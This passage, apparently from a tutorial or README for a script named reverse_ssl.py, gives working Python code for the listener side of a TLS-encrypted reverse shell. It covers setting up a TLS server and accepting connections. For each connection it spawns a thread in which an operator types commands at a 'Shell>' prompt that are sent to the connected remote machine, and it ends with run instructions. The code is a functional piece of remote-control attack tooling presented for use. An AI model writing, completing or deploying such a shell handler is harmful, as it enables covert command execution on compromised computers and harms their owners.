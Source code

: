```python
def start_server(ip, port=443):
    certfile, keyfile = keys_check_or_create(ip)
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile=certfile, keyfile=keyfile)

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
        server_socket.bind((ip, port))
        server_socket.listen(5)
        print(f"[*] Server listening on {ip}:{port}")

        with context.wrap_socket(server_socket, server_side=True) as tls_server:
            while True:
                client_socket, addr = tls_server.accept()
                print(f"[+] Connection from {addr}")
                Thread(target=handle_client, args=(client_socket,)).start()
```
The server:
1. Creates a TLS context with the generated certificate and private key.
2. Listens for client connections and handles each connection in a new thread.

### **6. Handling Client Commands**

```python
def handle_client(client_socket):
    buffer_size = 8192
    try:
        while True:
            command = input("Shell> ")
            if command.lower() in ["exit", "quit"]:
                client_socket.sendall(b"exit")
                break
            client_socket.sendall(command.encode())
            response = client_socket.recv(buffer_size).decode()
            print(response)
    except Exception as e:
        print(f"[!] Error: {e}")
    finally:
        client_socket.close()
```
### **7. How to run**

1. **Start the server:**
```bash
python reverse_ssl.py
```
